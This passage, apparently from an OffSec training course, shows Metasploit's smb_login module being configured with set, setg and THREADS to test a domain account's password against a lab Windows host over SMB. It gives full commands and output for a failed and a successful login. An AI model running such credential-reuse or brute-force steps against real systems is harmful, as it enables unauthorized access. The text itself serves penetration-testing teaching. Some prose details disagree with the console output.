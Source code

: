 The output reveals that this module accepts both _Required_ parameters (like _RHOSTS_) and optional parameters (like _SMBDomain_). However, we notice that _RHOSTS_ is not set, even though we set it while using the previous smb2 module. This is because set defines a parameter only within the scope of the running module. We can instead set a global parameter, which is available across all modules, with setg.

One parameter that we often change for auxiliary modules is _THREADS_. This parameter tells the framework how many threads to initiate when running the module, increasing the concurrency, and the speed. We don't want to go too crazy with this number, but a slight increase will dramatically decrease the run time.

For the sake of this demonstration, let's assume that we have discovered valid domain credentials during our assessment. We would like to determine if these credentials can be reused on others servers that have TCP port 445 open. To make things easier, we will try this approach on our Windows client, beginning with an invalid password.

We'll start by supplying the valid domain name of corp.com, a valid username (Offsec), an _invalid_ password (ABCDEFG123!), and the Windows 10 target's IP address:

```
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser Offsec
SMBUser => Offsec
msf6 auxiliary(scanner/smb/smb_login) > set SMBPass notarealpassword
SMBPass => notarealpassword
msf6 auxiliary(scanner/smb/smb_login) > setg RHOSTS 192.168.120.11
RHOSTS => 192.168.120.11
msf6 auxiliary(scanner/smb/smb_login) > set THREADS 10
THREADS => 10
msf6 auxiliary(scanner/smb/smb_login) > 


msf6 auxiliary(scanner/smb/smb_login) > run

[*] 192.168.120.11:445    - 192.168.120.11:445 - Starting SMB login bruteforce
[-] 192.168.120.11:445    - 192.168.120.11:445 - Failed: 'WORKSTATION\Offsec:notarealpassword',
[*] 192.168.120.11:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Since we knew that the password we supplied was invalid, the login failed as expected. Now, let's try to supply a valid password and re-run the module.

```
msf6 auxiliary(scanner/smb/smb_login) > set SMBPass Qwerty09!
SMBPass => Qwerty09!
msf6 auxiliary(scanner/smb/smb_login) > run

[*] 192.168.120.11:445    - 192.168.120.11:445 - Starting SMB login bruteforce
[+] 192.168.120.11:445    - 192.168.120.11:445 - Success: 'WORKSTATION\Offsec:Qwerty09!'
[*] 192.168.120.11:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This time, the authentication succeeded. We can retrieve information regarding successful login attempts from the database with creds.
